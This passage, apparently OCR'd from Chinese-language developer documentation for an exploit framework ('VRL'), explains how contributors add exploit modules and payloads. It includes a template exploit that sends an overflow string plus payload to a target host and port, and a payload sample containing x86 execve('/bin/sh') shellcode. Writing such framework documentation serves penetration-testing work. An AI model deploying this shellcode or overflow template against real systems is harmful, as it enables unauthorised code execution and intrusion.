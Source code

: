 ```python
        #这里写出更换payload时的要求（用于用户更换你指定以外的payload参考），尽量详尽。
        self.payload_requirement = \
'''architecture : x86
max length : 200
NULL byte : allow
'''
        #这一属性可以删除，因为它会被覆盖，这里只是提示你如何调用payload内容，载入payload由VRL帮你完成。
        self.payload = '\xAA'

    def run(self):
        '''在这里运行你的攻击，你可以单独运行这一脚本，会自动帮你运行攻击。
        如果这里运行成功，那么VRL就可以调用你的脚本了。
        确保你运行的时候符合options中的设置。
        下面是一个简单的样例。'''
        import socket
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((self.options['dIP'], int(self.options['port'])))
        data = 'A' * 100 + self.payload
        s.send(data)
        s.close()
        print "Exploit Finished."

#这里之下不要更改---------------------------------------------------------------------------------
if __name__ == "__main__":
    ...
```

### Exploit的Payload支持

+ 如果你的Exploit支持更换payload，可以在属性中添加default_payload属性，默认值为默认的payload名字（请提前将payload加入框架中）。
+ supported_payload中请给出你测试过的，建议更换的payload。
+ payload_requirement中记录的信息将会在更换payload时显示，供使用者比较payload是否可用。建议包含的信息：
    + 最大payload长度
    + 是否限制NULL(\00)字节
    + 是否需要Unicode编码
    + 是否需要ROP或JOP构造
    + 等等
    + 在单独运行run.py时这一payload仍会被自动载入，不需要担心。

## 增加Payload

与增加前两者不同，增加payload直接在payloads中添加python脚本或者json文件。

一个简单的payload脚本如下（你同样可以在sample中找到样例）：

```python
#! /usr/bin/python
# coding:UTF-8

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

class Payload(object):
	def __init__(self):
		self.info = '''abstract: payload的功能简介
		architecture： 指令集x86/x64
		length: 长度
		NULL byte: yes/no
		'''
		self.data = shellcode

#这里默认检查你的脚本并以默认参数运行你的程序，不要更改！
if __name__=='__main__':
```